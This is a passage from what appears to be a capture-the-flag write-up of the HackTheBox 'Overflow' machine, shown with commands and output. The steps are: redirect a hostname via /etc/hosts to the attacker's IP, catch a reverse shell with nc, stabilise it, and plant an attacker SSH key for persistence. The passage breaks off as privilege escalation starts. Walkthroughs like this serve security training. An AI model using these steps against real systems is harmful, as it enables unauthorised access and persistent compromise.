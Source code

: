 ```
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

All that is left to do now is to add an entry to `/etc/hosts` for `taskmanage.overflow.htb` pointing to our tun0 ip.

```
developer@overflow:~$ echo -e '10.10.14.105\ttaskmanage.overflow.htb' >> /etc/hosts
```

After about a minute we get a reverse shell on our listener as tester which we upgrade and fix the terminal size. In tester's home directory we also find the user flag.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.96.28.
Ncat: Connection from 10.129.96.28:59006.
bash: cannot set terminal process group (59471): Inappropriate ioctl for device
bash: no job control in this shell
tester@overflow:~$ python3 -c 'import pty;pty.spawn("/bin/bash")
python3 -c 'import pty;pty.spawn("/bin/bash")'
tester@overflow:~$ export TERM=xterm
export TERM=xterm
tester@overflow:~$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

tester@overflow:~$ stty rows 55 cols 236
tester@overflow:~$ wc -c user.txt
33 user.txt
```

# Root

To have a more stable shell we generate a ssh key pair, add the public key to tester's authorized_keys file.

```
tester@overflow:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG3JnZuhpJ4lef+irvWd7m4qU54pBDrJAFC235xQXL8z' >> .ssh/authorized_keys
```

## Binexp

### Pin

Checking for suid binaries on the system tester can run the custom looking `/opt/file_encrypt/file_encrypt` which is owned by the root user.
